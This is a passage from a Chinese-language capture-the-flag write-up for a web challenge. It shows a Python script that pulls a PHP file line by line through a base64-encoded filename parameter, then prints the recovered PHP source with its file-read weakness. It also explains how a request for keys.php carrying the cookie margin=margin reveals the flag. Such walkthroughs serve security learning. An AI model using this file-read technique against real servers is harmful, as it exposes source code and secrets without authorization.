 差不多18行的时候的代码已经结尾了。所以这里给出一个python的脚本直接得出php代码。说实在的这个一点提示都没有，有点难想到

```
import requests
import base64

filename=base64.b64encode('index.php'.encode()).decode()

file_php=open("code.php","w")

for i in range(30):

    url='http://123.206.87.240:8002/web11/index.php?line='+str(i)+'&filename='+filename
    result=requests.get(url)
    file_php.write(result.text) 
```

php代码

```
<?php
    error_reporting(0);
    $file=base64_decode(isset($_GET['filename'])?$_GET['filename']:"");
    $line=isset($_GET['line'])?intval($_GET['line']):0;
    if($file=='') header("location:index.php?line=&filename=a2V5cy50eHQ=");
    $file_list = array(
        '0' =>'keys.txt',
        '1' =>'index.php',
    );
    if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){
        $file_list[2]='keys.php';
    }
    if(in_array($file, $file_list)){
        $fa = file($file);
        echo $fa[$line];
    } 
```

分析一波我们获得的代码，有一部分是检测是否传入cookie，我们查看一下请求头部信息会发现，原先是没有传入cookie的
再者我们通过php代码分析可以得到，keys.php这个文件信息是尤为关键的，所以我们的filename的传参值为keys.php的base64编码
这里说两种方法：
（1）bp抓包
通过得到请求头，修改请求的头部信息filename，再加上cookie：margin=margin（php代码分析得出），得到响应信息（flag）